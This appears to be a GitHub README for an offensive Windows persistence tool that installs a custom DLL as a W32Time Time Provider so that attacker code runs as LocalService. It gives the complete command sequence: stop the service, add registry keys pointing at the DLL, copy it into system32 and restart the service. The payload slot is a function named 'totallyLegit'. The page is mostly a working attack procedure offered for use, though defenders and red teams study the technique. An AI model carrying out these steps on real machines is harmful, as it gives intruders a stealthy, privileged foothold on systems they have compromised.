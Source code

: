 # w32TimePersistence

Windows high-privilege persistence technique that consists in adding a new Time Provider and writing a custom DLL based off of [this](https://learn.microsoft.com/en-us/windows/win32/sysinfo/sample-time-provider) Sample Time Provider DDL template from Microsoft to execute code as the `LocalService` user.

## Usage
To use this technique, put whatever code you want to execute inside the `totallyLegit` function in the [library.cpp](https://github.com/otterpwn/w32TimePersistence/blob/main/library.cpp) file, compile the DLL and perform the following steps

1. Stop the w32time service
2. Add a registry entry for a new Time Provider pointing the DllName key to our DLL
3. Enable the new Time Provider and set it as a input Time Provider
4. Copy our DLL into the desired location
5. Start the process up again

```
sc stop w32time

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "DllName" /d "%systemroot%\system32\w32TimePersistence.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\Persistence" /t REG_EXPAND_SZ /v "InputProvider" /d "1" /f

copy w32TimePersistence.dll C:\windows\system32\

sc start w32time
```
